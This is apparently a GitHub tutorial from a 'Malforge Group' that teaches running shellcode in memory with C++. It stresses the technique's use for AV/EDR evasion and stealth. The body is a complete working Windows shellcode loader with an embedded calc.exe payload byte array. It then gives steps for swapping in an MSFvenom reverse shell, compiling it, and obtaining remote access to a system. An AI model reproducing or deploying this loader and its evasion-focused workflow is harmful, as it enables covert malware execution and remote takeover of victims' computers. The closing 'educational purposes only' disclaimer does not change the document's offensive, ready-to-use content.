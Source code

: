 # Executing Shellcode with C++

## Introduction

Hello everyone, today I am going to teach you how to execute malicious shellcode with C++.

## Why Use Shellcode?

Shellcode is often used in scenarios where:

- **Stealth is critical** — It avoids writing to disk.
- **AV/EDR evasion** — Memory-resident payloads are harder to detect.
- **Precise control** over execution — You're writing and executing memory buffers directly.

![image](https://github.com/user-attachments/assets/86729f34-8ff9-4a2d-b637-7fb9dbb26312)

## The Payload: `calc.exe`

We'll use a shellcode payload that spawns the calculator (`calc.exe`). This is commonly used as a proof-of-concept (PoC) for demonstrating shellcode execution.

---

## Full C++ Code

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

## Proof of Concept (PoC)
To illustrate this technique, we can use a reverse shell payload created with **MSFvenom in C format**. Follow these steps:

Generate Shellcode: Use **MSFvenom** to create a reverse shell payload and format it as a C array.

![image](https://github.com/user-attachments/assets/85592f72-2ddc-4519-9cc3-08d74ce71fb4)

Insert Payload: Update the payload array in the code with the generated shellcode.

![image](https://github.com/user-attachments/assets/6b98ec6a-2354-4368-aa05-9a837c830605)

Compile and Run: Compile the C++ code into an executable (EXE) and run it to initiate the reverse shell.

![image](https://github.com/user-attachments/assets/94d3293c-b47c-4738-9fdf-df5b33aa8526)

![image](https://github.com/user-attachments/assets/4c2e683e-2659-4eff-ac64-034babac6d7c)

Upon running the EXE, the reverse shell connects, granting remote access to the system

![image](https://github.com/user-attachments/assets/087d4378-0658-4b46-80d2-f45b4203ab91)

![image](https://github.com/user-attachments/assets/a6e2233f-c24a-45d8-8c19-cee4358c0066)

## Conclusion

This guide covered how to execute shellcode in C++ and highlighted its stealth advantages. By running code in memory, shellcode can bypass many standard security measures. I hope this article was insightful and helped you understand shellcode execution.

> ⚠️ **Disclaimer:**  
> This code is for **educational purposes only**. Executing shellcode can be **highly dangerous** and may trigger antivirus alerts or cause system instability.  
> Do **not** run this code on production machines or without proper knowledge.  
> Always conduct experiments in **isolated environments** such as virtual machines or sandboxes.
---

Thank you for reading!

— **Malforge Group**
